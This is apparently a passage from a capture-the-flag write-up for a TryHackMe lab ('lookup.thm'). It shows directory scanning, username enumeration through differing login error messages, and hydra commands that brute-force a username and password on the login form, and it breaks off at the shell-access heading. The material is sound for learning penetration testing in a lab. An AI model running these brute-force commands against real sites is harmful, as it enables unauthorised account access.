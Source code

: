 
Visiting the target IP in a browser redirects to `lookup.thm`, so we need to add that to the `/etc/hosts` file.

```bash
echo "<target_ip> lookup.thm" | sudo tee -a /etc/hosts
```

**Directory Brute-Force on Port 80**

```bash
feroxbuster --url="http://lookup.thm" --wordlist /usr/share/SecLists/Discovery/Web-Content/raft-large-extensions.txt
```

* No luck with directory brute-force.
    

After trying a full port scan, SSH brute-force, `sqlmap`, and `nikto`, I wasted about an hour with no useful results.

## Finding Valid Usernames & Passwords

I tried basic credentials on the login page, such as `admin:admin`, `test:password`. After a few attempts, I noticed that the webpage responds differently when the user `admin` is entered, showing `Wrong Password`, and for any other users, it shows `Wrong Password or Username`. I brute-forced the password for `admin` but didn’t have any luck. This could mean that the server is returning valid passwords for different users. Why? could be bad coding practices, so I explored the possibility of other valid users.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736411857400/c11b224e-acf3-4504-ba5c-b6a1bc5cf4c5.png align="left")

**Enumerate Valid Users**

```bash
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames-dup.txt -p password lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong username" -I
```

* Found User: `j-fake-name`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736411885090/4498c4bc-ad4c-4f0e-8e10-a9efc27f2fad.png align="left")

I then brute-forced the password for `j-fake-name`:

```bash
hydra -l j-fake-name -P /usr/share/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password" -I
```

* Found Password for `j-fake-name`: `j-fake-password`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736411907660/23b16c28-6626-4550-a1f0-630cfc3bbb57.png align="left")

### Getting Initial Access (Shell)
